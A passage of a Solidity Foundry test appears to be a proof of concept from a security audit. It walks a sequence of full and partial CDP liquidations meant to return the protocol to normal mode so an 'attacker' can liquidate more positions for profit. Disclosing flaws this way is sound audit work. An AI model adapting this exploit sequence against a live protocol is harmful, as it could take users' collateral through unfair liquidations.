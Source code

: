 ```solidity
            isAvailableToLiq = _checkAvailableToLiq(cdpIds[2], price);
            console.log("Is available to liquidate CDP_123ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_123ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[2]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_123ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 124%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[3], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[3], price);
            console.log("Is available to liquidate CDP_124ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_124ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[3]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_124ICR: ", TCR);

                console.log("There is no CDP (TCR <= ICR < CCR)");
            }

            console.log("-- Now the attacker will liquidate some CDPs (ICR <= TCR) < CCR to earn more money --");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            console.log("CDP_110ICR = ", icr0);
            console.log("- Liquidate CDP_110ICR fully");
            vm.prank(user);
            cdpManager.liquidate(cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR after LiqCDP_110ICR fully: ", TCR);
            console.log("!!!System is in NormalMode liquidating 4 CDPs including the first CDP!!!");

            console.log("\n");

            console.log("Is CDP_110ICR liquidated? ", !sortedCdps.contains(cdpIds[0]));
            console.log("Is CDP_122ICR liquidated? ", !sortedCdps.contains(cdpIds[1]));
            console.log("Is CDP_123ICR liquidated? ", !sortedCdps.contains(cdpIds[2]));
            console.log("Is CDP_124ICR liquidated? ", !sortedCdps.contains(cdpIds[3]));
            console.log("Is CDP_133ICR liquidated? ", !sortedCdps.contains(cdpIds[4]));

            console.log("CDP size: ", sortedCdps.getSize());

            uint256 _stETHBalance = collateral.balanceOf(user);
```